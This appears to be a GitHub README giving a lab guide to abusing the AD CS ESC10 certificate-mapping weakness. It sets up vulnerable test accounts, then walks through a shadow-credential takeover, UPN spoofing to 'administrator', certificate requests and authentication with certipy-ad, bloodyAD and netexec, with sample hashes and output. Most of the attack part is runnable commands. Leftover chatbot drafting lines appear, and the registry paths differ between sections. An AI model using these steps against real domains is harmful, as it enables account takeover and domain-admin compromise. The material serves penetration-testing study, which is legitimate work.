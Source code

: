 # 🔐 Active Directory Certificate Services (ADCS) - Enterprise CA Security Configuration 10 (ESC10) Abuse Guide


# What is ESC10?

ESC10 is a security issue related to **Active Directory Certificate Services (AD CS)** where Windows' **Schannel** (used for TLS/SSL) improperly maps certificates to user accounts.

If the server is configured to use **UPN (User Principal Name) based certificate mapping** insecurely, an attacker who can change a user’s UPN can:

- Get a certificate for that user with a fake UPN matching a privileged account
- Authenticate as the privileged account using the certificate
- Bypass normal authentication checks and gain access

This attack relies on weak AD permissions allowing UPN changes and misconfigured Schannel certificate mapping.

ESC10 is important because it can let attackers impersonate high-privilege accounts through certificate-based authentication.

Here’s a polished Markdown draft for your lab setup section with clear instructions and formatting:

## Lab Setup

### Step 1: Update Registry to Disable Certificate Mapping Methods

On the target Windows machine (usually the Domain Controller), open **Registry Editor** and navigate to:

```

HKEY\_LOCAL\_MACHINE\SYSTEM\CurrentControlSet\Services\Kdc

````

Set the **`CertificateMappingMethods`** DWORD value to `0` to disable unwanted certificate mapping methods.

![Registry Edit](Imgs/image2.png)

---

### Step 2: Create Test Users in Active Directory

Using PowerShell, create two AD user accounts:

```powershell
New-ADUser -Name "john" -SamAccountName "john" -UserPrincipalName "john@furious.local" -AccountPassword (ConvertTo-SecureString "complex1@" -AsPlainText -Force) -Enabled $true

New-ADUser -Name "martin" -SamAccountName "martin" -UserPrincipalName "martin@furious.local" -AccountPassword (ConvertTo-SecureString "complex2@" -AsPlainText -Force) -Enabled $true
````

---

### Step 3: Grant Write Access for `john` over `martin`

Assign **write permissions** on `martin`’s account to user `john`. This permission allows `john` to modify attributes like `userPrincipalName` on `martin`’s object.

![Permission Edit](Imgs/image1.png)

---

### Step 4: Verify Write Permissions with bloodyAD

On your Kali machine, run `bloodyAD` to list objects that `john` can write to:

```bash
bloodyAD --host $IP -d furious.local -u 'john' -p 'complex1@' get writable
```

Sample output:

```
distinguishedName: CN=S-1-5-11,CN=ForeignSecurityPrincipals,DC=furious,DC=local
permission: WRITE

distinguishedName: CN=john,CN=Users,DC=furious,DC=local
permission: WRITE

distinguishedName: CN=martin,CN=Users,DC=furious,DC=local
permission: WRITE
```

This confirms `john` has write access over `martin`’s account.

---
## Enumeration and Identification

- **Certipy does not directly detect ESC10** by querying the Schannel `CertificateMappingMethods` registry key because it requires privileged access (e.g., local admin) on Domain Controllers or target servers.

- **Identifying potentially vulnerable servers** involves:
  - Manually or via scripts checking the registry key:  
    ```
    HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\SCHANNEL\CertificateMappingMethods
    ```
    on Domain Controllers or other servers using Schannel (like LDAPS).
  - If the DWORD value includes the bit flag `0x4` (e.g., `0x4`, `0xC`, `0x1C`, `0x1F`), the server may be vulnerable to ESC10.


Here's a clean, well-structured Markdown section for your **Attack** workflow with commands and explanations:



# Exploiting ESC10 Misconfiguration in Active Directory Certificate Services (ADCS)

### Step 1: Obtain Credentials for `martin` Using Shadow Credential Attack

First, use `certipy-ad` to perform a shadow credential attack from the low-privileged user `john` on the account `martin`:

```bash
certipy-ad shadow auto -u john -p complex1@ -account martin -dc-ip $IP
````

Sample output:

```
[*] Targeting user 'martin'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '19d8246b-330c-5bcb-aafd-82458827425b'
[*] Adding Key Credential with device ID '...' to 'martin'
[*] Successfully added Key Credential
[*] Authenticating as 'martin' with the certificate
[*] Got TGT
[*] Trying to retrieve NT hash for 'martin'
[*] NT hash for 'martin': f26db8968d8e6c0790978b2b30b262e5
```

---

### Step 2: Verify Credentials by Connecting with `martin`

Use `netexec` to check if the obtained hash works:

```bash
netexec smb $IP -u martin -H f26db8968d8e6c0790978b2b30b262e5
```

If successful, you'll see something like:

```
[+] furious.local\martin:f26db8968d8e6c0790978b2b30b262e5
```

---

### Step 3: Confirm Account Details of `martin`

Check current attributes of `martin` using Certipy:

```bash
certipy-ad account -u 'john' -p 'complex1@' -dc-ip $IP -user 'martin' read
```

This returns important details like `userPrincipalName`, `sAMAccountName`, etc.

---

### Step 4: Change `martin`'s UPN to `administrator`

Update the `userPrincipalName` attribute of `martin` to `administrator`:

```bash
certipy-ad account -u 'john' -p 'complex1@' -dc-ip $IP -upn administrator -user 'martin' update
```

---

### Step 5: Request a Certificate with the Manipulated UPN

Using `martin`'s credentials, request a certificate from the CA with the new UPN:

```bash
certipy-ad req -u martin -hashes f26db8968d8e6c0790978b2b30b262e5 -ca furious-DC01-FURIOUS5-CA -template user -dc-ip $IP
```

Output:

```
[*] Got certificate with UPN 'administrator'
[*] Saving certificate and private key to 'administrator.pfx'
```

---

### Step 6: Restore `martin`'s Original UPN

After requesting the certificate, revert the UPN back to the original value:

```bash
certipy-ad account -u 'john' -p 'complex1@' -dc-ip $IP -upn 'martin' -user 'martin' update
```

---

### Step 7: Authenticate as `administrator` Using the Certificate

Use the certificate to authenticate and get TGT as `administrator`:

```bash
certipy-ad auth -pfx administrator.pfx -dc-ip $IP -domain furious.local
```

Output:

```
[*] Using principal: 'administrator@furious.local'
[*] Got TGT
[*] Got hash for 'administrator@furious.local': aad3b435b51404eeaad3b435b51404ee:e6c278088a8bee2149534efa88d188f1
```


Now have valid Kerberos credentials for the `administrator` account, completing the ESC10 privilege escalation.


## References:

- [Certipy Wiki: Privilege Escalation](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation)

- [Hacking Articles: ADCS ESC10 - Weak Certificate Mapping](https://www.hackingarticles.in/adcs-esc10-weak-certificate-mapping/)

